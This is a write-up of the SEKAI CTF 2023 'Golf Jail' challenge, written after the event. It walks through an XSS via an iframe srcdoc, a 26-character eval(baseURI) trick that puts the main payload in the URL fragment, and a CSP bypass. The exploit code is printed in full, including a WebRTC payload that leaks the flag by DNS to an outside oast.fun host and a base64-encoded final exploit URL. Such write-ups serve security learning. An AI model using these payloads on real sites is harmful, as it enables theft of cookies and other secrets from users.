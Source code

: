 ```yaml
---
title: "SEKAI CTF 2023 - Golf Jail"
description: "JS Payload golfing and CSP Bypass using WebRTC"
lead: "JS Payload golfing and CSP Bypass using WebRTC"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "writeup"
weight: 620
toc: true
---
```


> I did not manage to solve it during the CTF, but I decided to make a write-up afterwards as it was a very cool challenge.

## Challenge

I hope you like golfing ⛳🏌️⛳🏌️

- Challenge URL: [https://golfjail.chals.sekai.team/](https://golfjail.chals.sekai.team/)

```html
<?php
    header("Content-Security-Policy: default-src 'none'; frame-ancestors 'none'; script-src 'unsafe-inline' 'unsafe-eval';");
    header("Cross-Origin-Opener-Policy: same-origin");

    $payload = "🚩🚩🚩";
    if (isset($_GET["xss"]) && is_string($_GET["xss"]) && strlen($_GET["xss"]) <= 30) {
        $payload = $_GET["xss"];
    }

    $flag = "SEKAI{test_flag}";
    if (isset($_COOKIE["flag"]) && is_string($_COOKIE["flag"])) {
        $flag = $_COOKIE["flag"];
    }
?>
<!DOCTYPE html>
<html>
    <body>
        <iframe
            sandbox="allow-scripts"
            srcdoc="<!-- <?php echo htmlspecialchars($flag) ?> --><div><?php echo htmlspecialchars($payload); ?></div>"
        ></iframe>
    </body>
</html>
```

> The admin bot only takes URLs of the format https://golfjail.chals.sekai.team/

## TL;DR

Create a tiny XSS to run a second payload contained inside the URL. This second payload will exfiltrate the flag and bypass the CSP using a DNS exfiltration with WebRTC.

## Write-Up

### Code Execution

Using `htmlspecialchars` within the `srcdoc` attribute doesn't prevent against HTML Injection/XSS. The code example below demonstrates that HTML entity codes are effectively interpreted inside the `iframe`. For more details, refer to [attr-iframe-srcdoc](https://html.spec.whatwg.org/multipage/iframe-embed-object.html#attr-iframe-srcdoc).

```js
function encodeHTMLEntities(text) {
  var textArea = document.createElement('textarea');
  textArea.innerText = text;
  return textArea.innerHTML;
}

document.write(`<iframe srcdoc='${encodeHTMLEntities("<img src=x onerror=alert()>")}'></iframe>`);
```

### Tiny XSS

We know how to execute an XSS, our next challenge is to bypass the 30 characters or less filter. To perform an XSS within this limit, we can use the URL to locate a part of our payload.

```python
>>> len("<svg onload=eval(location)>") # about:srcdoc
27
>>> len("<svg onload=eval(top.location)>") # https://golfjail.chals.sekai.team/...
31
>>> len("<svg onload=eval(baseURI)>") # https://golfjail.chals.sekai.team/...
26
```

When you're within an `iframe`, you can't employ the `location` attribute to access the top-level location. Using `top.location` exceeds the character limit. However, you can leverage the [baseURI](https://devdoc.net/web/developer.mozilla.org/en-US/docs/Web/API/Document/baseURI.html) property of the Node (in this case, the `svg`). This property provides the absolute base URL of the document housing the node.

> Futhermore, you cannot access the `top` window context because the [Cross-Origin-Opener-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Cross-Origin-Opener-Policy) header is set to `same-origin` (cross-origin documents are not loaded in the same browsing context).

As we cannot directly evalute the `baseURI` property, we can create a string that will contain the URL, close this string and initiate our second payload. This means the second payload resides both within the URL and outside the `xss` parameter, allowing us to bypass the character limit.

```
golfjail.chals.sekai.team/?xss=<svg onload=eval(`'`+baseURI)>#'+PAYLOAD2

1. 'https://golfjail.chals.sekai.team/?xss=<svg onload=eval(`'`+baseURI)>#'
2. +
3. PAYLOAD2

=> eval('https://.../?xss=eval(%60%27%60%2BbaseURI)>#' + PAYLOAD2)
```

### CSP Bypass

Now that we can execute an XSS without dealing with the character size resitriction, our final step is to find a CSP bypass to extract the flag. For this purpose, we can use a DNS exfiltration via WebRTC.

```
Content-Security-Policy:
    default-src 'none';
    frame-ancestors 'none';
    script-src 'unsafe-inline' 'unsafe-eval';
```

WebRTC exfiltration payload:

```js
var flag = document.firstChild.data.split('').map(x=>x.charCodeAt(0).toString(16)).join('').substr(32,48);
var pc = new RTCPeerConnection({
    "iceServers": [{
        "urls": ["stun:" + flag + ".ckpaek22vtc0000kjaw0gj5f8jhyyyyyb.oast.fun"]
    }]
});
pc.createOffer({
    offerToReceiveAudio: 1
}).then(o => pc.setLocalDescription(o));
```

Final payload:

```
https://golfjail.chals.sekai.team/?xss=%3Csvg%20onload=eval(`%27`%2BbaseURI)%3E#'+eval(atob('dmFyIGZsYWcgPSBkb2N1bWVudC5maXJzdENoaWxkLmRhdGEuc3BsaXQoJycpLm1hcCh4PT54LmNoYXJDb2RlQXQoMCkudG9TdHJpbmcoMTYpKS5qb2luKCcnKS5zdWJzdHIoMzIsNDgpOwp2YXIgcGMgPSBuZXcgUlRDUGVlckNvbm5lY3Rpb24oewogICAgImljZVNlcnZlcnMiOiBbewogICAgICAgICJ1cmxzIjogWyJzdHVuOiIgKyBmbGFnICsgIi5ja3BhZWsyMnZ0YzAwMDBramF3MGdqNWY4amh5eXl5eWIub2FzdC5mdW4iXQogICAgfV0KfSk7CnBjLmNyZWF0ZU9mZmVyKHsKICAgIG9mZmVyVG9SZWNlaXZlQXVkaW86IDEKfSkudGhlbihvID0+IHBjLnNldExvY2FsRGVzY3JpcHRpb24obykpOw=='))
```

> **SEKAI{jsjails_4re_b3tter_th4n_pyjai1s!}**
